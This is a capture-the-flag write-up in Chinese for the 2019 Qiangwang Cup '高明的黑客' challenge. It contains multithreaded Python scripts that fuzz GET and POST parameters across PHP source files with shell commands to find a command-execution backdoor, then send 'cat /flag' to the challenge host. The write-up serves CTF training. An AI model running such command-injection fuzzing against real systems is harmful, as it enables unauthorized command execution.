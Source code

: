 # \[强网杯 2019]高明的黑客

## \[强网杯 2019]高明的黑客

## 考点

* 爆破脚本书写
* Python正则表达式
* Python多线程

## wp

www.tar.gz下载源码，使用notepad++在src目录中查找system，还是有很多

![](<../.gitbook/assets/image (29).png>)

只能用脚本多线程跑

```php
import os
import re
import requests
import threading

lock = threading.Lock()
path = 'src/'
files = os.listdir(path)
url = 'http://localhost:8888/intru/src/'

def send_req(file):
    f = open('src/'+file)
    ff = f.read()
    lock.acquire()
    f.close()
    lock.release()
    get_pattern = re.compile(r"\$_GET\['\w+'\]")
    get_res = re.findall(get_pattern,ff)
    get_res = list(set(get_res))
    post_pattern = re.compile(r"\$_POST\['\w+'\]")
    post_res = re.findall(post_pattern,ff)
    post_res = list(set(post_res))
    url_test = url + file + '?' + ('=echo "peri0d"&'.join(get_res)).replace("$_GET['",'').replace("']",'') + '=echo "peri0d"'
    data = {}
    for i in post_res:
        data[i[8:-2]] = 'echo "peri0d"'
    response = requests.post(url_test, data=data)
    print(response.text)
    # print(url_test)
    # print(data)
    if "peri0d" in response.text:
        print(file)
        return file
    

#send_req('xk0SzyKwfzw.php')
l = []
for i in files:
    t = threading.Thread(target=send_req, args=(i,))
    t.start()
    l.append(t)
for i in l:
    i.join()
```

得到结果xk0SzyKwfzw.php

![](<../.gitbook/assets/image (16) (1).png>)

再写一个`get_flag`函数，复制粘贴前面的代码，改一下地址和shell

```python
def get_flag(file):
    f = open('src/'+file)
    ff = f.read()
    f.close()
    
    shell = 'cat /flag'
    get_pattern = re.compile(r"\$_GET\['\w+'\]")
    get_res = re.findall(get_pattern,ff)
    get_res = list(set(get_res))
    post_pattern = re.compile(r"\$_POST\['\w+'\]")
    post_res = re.findall(post_pattern,ff)
    post_res = list(set(post_res))
    url_test = 'http://70b853eb-51ee-40c5-a69c-ab1ec94682a8.node4.buuoj.cn:81/' + file + '?' + (f'={shell}&'.join(get_res)).replace("$_GET['",'').replace("']",'') + f'={shell}'
    data = {}
    for i in post_res:
        data[i[8:-2]] = shell
    response = requests.post(url_test, data=data)
    # print(url_test)
    # print(data)
    if "flag" in response.text:
        print(response.text)
        return file
get_flag('xk0SzyKwfzw.php')
```

![](<../.gitbook/assets/image (33).png>)
